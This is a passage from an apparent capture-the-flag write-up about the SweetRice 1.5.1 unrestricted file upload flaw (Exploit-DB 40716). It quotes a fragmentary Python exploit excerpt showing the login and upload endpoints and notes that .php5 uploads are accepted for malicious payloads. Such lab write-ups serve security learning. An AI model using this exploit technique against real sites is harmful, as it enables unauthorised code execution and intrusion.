 <img src="/assets/images/thm/ctf/lazyadmin-11.png" alt="Exploit-DB Backup Disclosure PoC" style="max-width:100%; height:auto;">

### 2. Arbitrary File Upload (Exploit-DB 40716)

<a href="https://www.exploit-db.com/exploits/40716" target="_blank">https://www.exploit-db.com/exploits/40716</a>


This exploit highlights a file upload vulnerability that allows attackers to upload malicious files and gain code execution.

```python
# Exploit Title: SweetRice 1.5.1 - Unrestricted File Upload
# Exploit Author: Ashiyane Digital Security Team
# Date: 03-11-2016

import requests
from requests import session

# Exploit attempts to upload a file via /as directory
login = r.post('http://' + host + '/as/?type=signin', data=payload)

# Targeted upload endpoint and accepted formats (.php5 included)
uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
```

The code showed that we needed to target the `/as` directory for the portal login and that `.php5` was an accepted file format for uploading malicious payloads.

---